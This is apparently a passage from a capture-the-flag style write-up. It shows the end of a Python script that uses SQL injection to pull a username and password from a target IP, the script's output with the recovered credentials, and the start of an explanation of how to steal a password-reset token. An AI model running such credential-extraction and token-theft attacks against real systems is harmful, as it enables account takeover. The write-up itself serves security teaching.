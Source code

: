 ```python
            print("\n[!] Done")
            break
    return extracted

def main():
    if len(sys.argv) != 2:
        print("[-] Need IP")
        sys.exit(-1)

    ip = sys.argv[1]
    print("[+] Getting username")
    query = "username"
    username = inject(query, ip)
    
    print("[+] Getting password")
    query = "password"
    password = inject(query, ip)

    print("[+] Creds are %s and %s" % (username, password))

if __name__ == "__main__":
    main()
```

Running this script we get the following:

```python
[+] Getting username
admin
[!] Done
[+] Getting password
unaccessable_until_you_change_me
[!] Done
[+] Creds are admin and unaccessable_until_you_change_me
```

The password give us a hint that we need to reset it before move on.

## Forget Password Token

Sometimes when we send a “Forgot my password” request, the web application will create a token and store in the database. Since now we can dump the database via SQL Injection we can retrieve the token generated.

Analyzing the code below, we note that when we reset the password, it will generate a token of length 15. Also note that the function `send_email()` is leaking the link we need to access to reset the password when we have the token.
